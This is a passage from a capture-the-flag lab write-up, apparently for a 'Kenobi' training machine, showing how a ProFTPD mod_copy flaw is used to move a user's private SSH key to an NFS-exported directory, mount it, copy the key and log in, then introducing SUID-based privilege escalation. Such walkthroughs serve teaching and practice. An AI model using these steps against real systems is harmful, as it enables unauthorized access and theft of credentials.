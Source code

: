 [Bug 4169 – Unauthenticated copying of files via SITE CPFR/CPTO allowed by mod_copy](https://bugs.proftpd.org/show_bug.cgi?id=4169)

We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.

![image.png](image%206.png)

<aside>
❗

We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

</aside>

Lets mount the /var/tmp directory to our machine.

```powershell
mkdir /mnt/kenobiNFS
mount 10.10.107.185:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

![image.png](image%207.png)

We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.

```powershell
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@$IP
```

<aside>
❓

What is Kenobi’s user flag (/home/kenobi/user.txt)? You can find it.

</aside>

# Task 4 Privilege Escalation w/ Path Variable Manipulation

![image.png](image%208.png)

Lets first understand what what SUID, SGID and Sticky Bits are.

| **Permission** | **On Files** | **On Directories** |
| --- | --- | --- |
| SUID Bit | User executes the file with permissions of the *file* owner | - |
| SGID Bit | User executes the file with the permission of the *group* owner. | File created in directory gets the same group owner. |
| Sticky Bit | No meaning | Users are prevented from deleting files from other users. |

SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.
